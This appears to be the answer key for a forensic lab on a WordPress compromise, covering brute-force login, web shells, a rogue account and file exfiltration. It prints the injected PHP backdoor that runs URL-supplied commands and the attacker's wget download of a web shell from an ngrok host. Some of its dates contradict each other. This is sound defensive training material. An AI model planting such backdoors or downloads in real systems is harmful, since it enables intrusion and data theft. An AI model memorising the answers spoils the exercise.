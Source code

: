 # 8: Answers

**Don't start here! Try the lab first!**

## Big Questions

Let's start with the answers to the big questions.

### 1. When did the attack take place?

The attack took place between Mar 5, 2023 @ 06:29:15.000 UTC (first URL hit) and Mar 4, 2023 @ 06:50:07.00 (last command run).

### 2. How did the attackers gain initial access to the site?

The attackers performed a dictionary attack against the website, eventually guessing the login password.

### 3. How did they establish persistence?

Persistence was established 2 ways. First, the Astra theme's `404.php` was modified to enable remote code execution, which allowed 2 web shells to be dropped onto the system: `monitor.php` and `lang.php`. Then, a new user account was created, as reported by the site owner.

### 4. What were the attackers _unable_ to do?

HTTP requests resulting in `403` show that web server security rules prevented the attackers from accessing files they uploaded to the `wp-content` folders.

### 5. What was the impact of the attack?

The contents of `/etc/passwd` and `wp-config.php` were exfiltrated. If the password used for the database was used anywhere else, those assets may also be compromised.

### 6. How could this have been prevented?

Several defensive measures could have stopped this attack. A plugin like [Wordfence](https://www.wordfence.com) could have prevented the brute force attack altogether.

Endpoint detection and response tools could have detected malicious files/behaviors on the system and quarantined them.

But the easiest, most obvious preventive measure? A password stronger than `WhisperWolf2033!`.

## Lab Section Answers

**What day shows a major spike in HTTP requests?**

March 5, 2022, UTC

**What hour shows a spike in HTTP requests?**

22:00

**When did the activity burst start?**

Mar 5, 2023 @ 06:27:03.000 UTC


**When did the activity burst end?**

Mar 5, 2023 @ 06:30:54.000 UTC

**How many requests for `wp-login.php` were there in this timeframe?**

2819

**How many requests were NOT response code 200?**

4

**What is the source IP of these events?**

98.147.146.215

**With this information, what do you think is happening here?**

This is a dictionary attack to brute-force the login.

**What files appear to have been edited by the attacker?**

* `wp-content/plugins/hello.php`
* `wp-content/themes/astra/404.php`

**What appears to have been added to these files?**

```php
if(isset($_GET["ij"])) {
	system($_GET["ij"]);
}
```

**What does this code do?**

Executes the command provided by the `ij` URL query parameter.

**What new files are being requested?**

* `monitor.php`
* `lang.php`

**What is the url.path the attacker used to access the infected PHP?**

`/20233`

**What command did the attacker execute to create the first mystery file?**

`wget https://07d6-98-147-146-215.ngrok.io/monitor.php`

**What other action did the attacker undertake in the admin dashboard?**

Created a new user.

**What directory did the suspicious command run from?**

`/var/www/html/wordpress`

**What two files' contents did the attacker print?**

* `/etc/passwd`
* `wp-config.php`

**What was the nickname of the file that was deleted?**

p0wnyshell

**We've now seen a couple of moves/downloads to files within `wp-content`. Why do you think these weren't used?**

Server security rules prevent direct access to `wp-content`.

**What is the path (starting from the webroot) to the remaining copy of `lang.php`?**

`wp-content/themes/astra/lang.php`

**What was the value of PWN used by the attackers?**

`foo`

**What is the variable that stores the joined `$register_key` array?**

`$content`

**Who is the creator of this webshell?**

WhiteWinterWolf
